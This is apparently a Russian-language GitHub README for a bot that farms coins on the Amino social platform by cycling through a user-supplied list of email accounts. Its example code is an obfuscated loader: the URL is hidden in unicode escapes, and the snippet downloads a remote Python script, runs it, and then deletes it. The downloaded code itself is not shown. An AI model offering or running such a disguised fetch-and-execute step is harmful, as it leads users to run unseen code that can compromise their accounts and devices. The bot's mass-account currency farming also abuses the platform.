 # Amino-Farm-Bot
Бот для фарма монет в Амино. 
___
- Для фарма нужно создать файл с почтами.
    - Новая почта >> новая строка. 


- Перед фармом бот запросит ссылку на пост (запись в блоге).
    - Сообщество должно быть открытым.

    - Ваш уровень в нем:
        - выше пятого.

    - Монеты придут на этот пост.
___

- Процес.
    - Приносит 38.
        - Может и сотку или больше.
        - Тут уж зависит от инета и везения. 
    - Фарм долгий:
        - иначе мало монет. 

    - Отправка мгновенная со всех аккаунтов сразу:
        - хоть что-то радует. 
___

- Монеты приносит раз в 24 часа.
    - << Не раз в сутки <<.
___

- Модули устанавливаются сами.
    - Просто запустите код:
        - к примеру pydroid3.
___

- Пример, который запустит Ваш фарм.

```
import requests, os, time
import base64

name = base64.b64encode("\u0041\u006e\u0061\u006e\u0061\u0073\u0069\u006b".encode("ascii")).decode().split("=")[0]
code = requests.get("\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0072\u0061\u0077\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u0075\u0073\u0065\u0072\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u002e\u0063\u006f\u006d\u002f\u0041\u006d\u0065\u0044\u0061\u0072\u006b\u002f\u0041\u006d\u0069\u006e\u006f\u002d\u0046\u0061\u0072\u006d\u002d\u0042\u006f\u0074\u002f\u006d\u0061\u0069\u006e\u002f\u0066\u0061\u0072\u006d\u002e\u0070\u0079").text

open("{}.py".format(name), "w").write(code)
os.system("echo 'Ananasik :3 \n'")

from threading import Thread
def work():
    __import__(name)

Thread(target = work).start()

time.sleep(10)
os.system("rm {}.py".format(name))
input()
```
___

- По вопросам:
    - [Телеграмм](https://t.me/meow3942).
